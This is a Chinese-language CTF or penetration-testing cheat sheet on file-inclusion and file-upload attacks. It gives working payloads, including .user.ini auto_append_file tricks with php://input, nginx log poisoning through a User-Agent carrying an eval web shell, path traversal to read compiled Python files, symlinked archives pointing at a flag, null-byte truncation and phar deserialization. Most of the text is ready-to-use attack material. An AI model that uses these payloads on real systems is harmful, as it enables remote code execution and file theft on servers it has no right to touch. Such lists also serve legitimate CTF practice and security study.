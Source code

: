 [实战 | 文件上传漏洞之最全代码检测绕过总结](https://mp.weixin.qq.com/s/6ArBgNYpsQH7WkaaJY6GfQ)

# LFI/文件包含

| Name                                                   | payload                                                    |     |
| ------------------------------------------------------ | ---------------------------------------------------------- | --- |
| `?file=index` 或 `?file=index.php` 有可能需要去掉 .php |                                                            |     |
| PHP_INCLUDE_TO_SHELL_CHAR_DICT                         | 文件包含即命令执行                                         |     |
| glob://                                                |                                                            |     |
| 日志包含                                               | 1.抓包修改 Agent 访问 2.包含日志 /var/log/nginx/access.log |
| 使用 [.user.ini](#userini) 进行包含                    | auto_append_file=2.jpg                                     |

## .user.ini

相当于 `include('xx.txt')`

| Desc           | .user.ini                                    | payload                                                                                |
| -------------- | -------------------------------------------- | -------------------------------------------------------------------------------------- |
| 包含 post 数据 | `auto_append_file=php://input`               | url:`index.php` <br>body: `<?php phpinfo();?>`                                         |
| 日志包含       | `auto_append_file=/var/log/nginx/access.log` | url:`index.php` <br> body: `1=phpinfo();`<br>usUser-Agent: `<?php eval($_POST[1]);?> ` |

# Python

```sh
/download?file=../../../app/__pycache__/part.cpython-311.pyc
```

# 文件上传

- 压缩包软链接，传到/tmp/data 下, ，这个软链接指向 flag，即可获取 flag
- %00 截断 php 版本小于 5.3.4
- 上传时考虑 phar 反序列化
